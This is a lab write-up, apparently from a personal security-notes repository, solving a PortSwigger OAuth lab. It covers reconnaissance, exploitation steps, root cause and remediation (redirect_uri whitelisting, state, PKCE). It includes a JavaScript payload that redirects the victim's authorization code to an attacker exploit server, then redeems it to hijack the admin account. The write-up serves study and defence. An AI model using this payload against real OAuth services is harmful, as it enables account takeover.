



## Metadata

- **Difficulty:** Practitioner
- **Category:** OAuth authentication
- **Lab URL:** [Lab: OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
- **Date Solved:** 8/10/2026
## Vulnerability Summary

This app uses an OAuth service to allow users to log in with their social media account. The OAuth server doesn't validate the client-controllable `redirect_uri` parameter in the authorization request sent to it from the client application. Combined with the lack of the `state` parameter, we can perform a CSRF attack by injecting our exploit server URL into this parameter, tricking the victim's browser into initiating the OAuth flow and stealing the authorization codes associated with their account. We can then use this code on the legitimate client application's `/callback` endpoint to gain access to the victim account.
## Reconnaissance

- Navigating to the `/my-account` endpoint automatically takes us to the `/social-login` endpoint. Here, we can log in with the provided credentials `wiener:peter`.
- The server is using OAuth as the authentication mechanism, as there is a request sent to the server automatically after we are redirected: 

The server is using the *authorization code* grant type (`response_type=code`).
- Proceed with the login process. The final request is to the `/oauth-callback` endpoint (as set in the `redirect_uri`). A `200 OK` response to this request signifies a successful login to an account, for example:
```html
    </p>
    <a href="/my-account?id=wiener">
      My account
    </a>
    <p>
      |
    </p>
  </section>
</header>
<header class="notification-header">
</header>
<p>
  You have successfully logged in with your social media account
</p>
```
- The server doesn't seem to validate the value of the `redirect_uri` parameter, as replacing the `/oauth-callback` endpoint with `https://example.com` still initiates the process successfully:

We can inject our exploit server URL here to retrieve the authorization code sent to the client application at the final request to the value in `redirect_uri`. 
## Exploitation Steps

1. Navigate to the `/my-account` endpoint, where you will be automatically taken to the `/social-login` endpoint. Log in with the credentials `wiener:peter` and proceed with the login process. Send the first request of the process (`GET /auth?client_id=[id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email`) and the final request of the process (`GET /oauth-callback?code=[code]`) to Repeater.
2. Make a note of the full endpoint in the first request.
3. Go to the exploit server, and paste this following script onto the body:
```js
<script>
document.location = 'https://oauth-[oauth-server-id].oauth-server.net/auth?client_id=[client-id]&redirect_uri=https://exploit-[exploit-server-id].exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email';
</script>
```
Then deliver exploit to victim.
4. Check the access log at `/log`. You should see that the victim's browser has made multiple request to initiate the OAuth flow, and the final codes are sent to our exploit server:

5. Use any of these codes to login to the victim's account by sending the `GET /oauth-callback?code=[code]` to the client application (modify the code of the final request in Step 2 to the code you just exfiltrated). You should received a `200 OK` HTTP response that reads:
```html
    </p>
    <a href="/my-account?id=administrator">
      My account
    </a>
    <p>
      |
    </p>
  </section>
</header>
<header class="notification-header">
</header>
<p>
  You have successfully logged in with your social media account
</p>
```
6. Open this response in browser, navigate to the Admin panel (`/admin`), and delete user `carlos`. Lab is solved.
## Payload Used

```js
<script>
document.location = 'https://oauth-[oauth-server-id].oauth-server.net/auth?client_id=[client-id]&redirect_uri=https://exploit-[exploit-server-id].exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email';
</script>
```
- **Automated Cross-Origin Navigation:** When the victim views the exploit page, the JavaScript sets `document.location`, forcing the victim's browser to make a `GET` request to the OAuth authorization endpoint (`/auth`).
- **Session Reuse (Ambient Authority):** The victim already has an active session cookie on the OAuth provider (`oauth-[oauth-server-id].oauth-server.net`). The browser automatically includes these session credentials with the cross-origin navigation.
- **Implicit/Auto-Consent:** Because the client application has already been granted permissions previously by the victim, the OAuth authorization server does not display a consent prompt and immediately processes the authorization request.
- **Unvalidated Redirection Destination:** The OAuth server fails to validate the user-controlled `redirect_uri` parameter against a strict pre-registered whitelist for `client_id`. It generates an authorization code tied to the victim's account and issues an HTTP `302 Found` redirecting the victim's browser to `https://exploit-[exploit-server-id].exploit-server.net/exploit?code=[STOLEN_CODE]`.
- **Code Exfiltration:** The victim's browser follows the redirect to the exploit server, leaking the valid authorization code in the query string directly into the exploit server's access log.
- **Code Redemption Decoupling:** The client application's `/oauth-callback` endpoint accepts any valid authorization code and exchanges it via back-channel with the authorization server without validating that the code was issued to the user agent redeeming it (due to the lack of an anti-CSRF `state` parameter).
## Root Cause

- The authorization server blindly trusts and uses the client-supplied `redirect_uri` parameter sent in the authorization request instead of verifying that it matches a strictly defined URI registered in the client application's configuration.
- The client application does not implement a cryptographically secure, unguessable `state` parameter bound to the user's session, nor does it implement Proof Key for Code Exchange (PKCE). As a result, the `/oauth-callback` endpoint cannot verify whether the browser redeeming the authorization code is the same user agent that originally requested it.
## Remediation

- Configure the OAuth Authorization Server to reject any authorization request whose `redirect_uri` does not match a pre-registered, fully qualified domain and path. Do not allow pattern matching, regex wildcards, subdomain wildcards, or arbitrary paths.
- **Enforce Cryptographic `state` Verification:** The client application must generate a unique, cryptographically random `state` parameter per OAuth session, store it in the user's HTTP session (or a signed, `HttpOnly` cookie), and pass it in the `/auth` request. Upon receiving the response at `/oauth-callback`, the client application must verify that the returned `state` parameter matches the original session before exchanging the authorization code.
- Mandate Proof Key for Code Exchange (PKCE) for all authorization code flows:
    - The client generates a random `code_verifier` and derives a `code_challenge`.
    - The authorization server stores the `code_challenge`.
    - When exchanging the code for tokens on the back-channel, the client must present the raw `code_verifier`. An attacker stealing only the authorization code via an open redirect cannot exchange it without the original `code_verifier`.
- The authorization server should never auto-approve authorizations when the request originates from an untrusted or newly specified redirect location.